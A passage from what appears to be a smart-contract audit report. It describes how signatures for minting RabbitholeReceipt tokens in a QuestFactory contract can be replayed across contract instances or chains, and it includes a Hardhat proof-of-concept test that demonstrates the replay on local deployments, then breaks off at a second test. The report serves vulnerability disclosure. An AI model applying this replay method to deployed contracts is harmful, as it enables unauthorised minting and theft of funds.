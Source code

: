 3.  The signature can be replayed on multiple instances of QuestFactory contract. If multiple QuestFactory contracts are deployed on a single EVM chain then signature intended for one contract can be replayed on the other ones.

Note that all these scenarios are true when `questId_` parameter stays same.

### Actual Impact

Exploitation using the above mentioned scenarios will lead to unintended minting of RabbitholeReceipt token. This is a crucial token for the protocol which is also used to claim rewards from Quest contracts. Hence any unintentional minting will cause loss of funds.

### Proof of Concept

The test cases were added in `./test/QuestFactory.spec.ts` file and ran using command `npx hardhat test ./test/QuestFactory.spec.ts`.

```typescript
  describe.only('QuestFactory: Signature Replay Bug', () => {
    it('Signature can be used in different QuestFactory instance or on different chain', async () => {
      const randomUser = (await ethers.getSigners())[10];
      const questA = "A";

      // Sign message and create new Quest
      const messageHash = utils.solidityKeccak256(['address', 'string'], [randomUser.address.toLowerCase(), questA])
      const signature = await wallet.signMessage(utils.arrayify(messageHash))
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Use the signature on First QuestFactory
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)

      const factoryPrevious = deployedFactoryContract
      const RHRPrevious = deployedRabbitHoleReceiptContract

      // Deploy a new QuestFactory (this could be on a different chain)
      await deployRabbitHoleReceiptContract()
      await deployFactoryContract()

      expect(factoryPrevious.address).to.not.eq(deployedFactoryContract.address)            // Verify we have new instance
      expect(RHRPrevious.address).to.not.eq(deployedRabbitHoleReceiptContract.address)

      // Create new Quest in new QuestFactory
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Use the previously used signature again on new QuestFactory
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)
      expect(await RHRPrevious.balanceOf(randomUser.address)).to.equal(1)
    })

    it('Signature can be used after 1 year', async () => {
```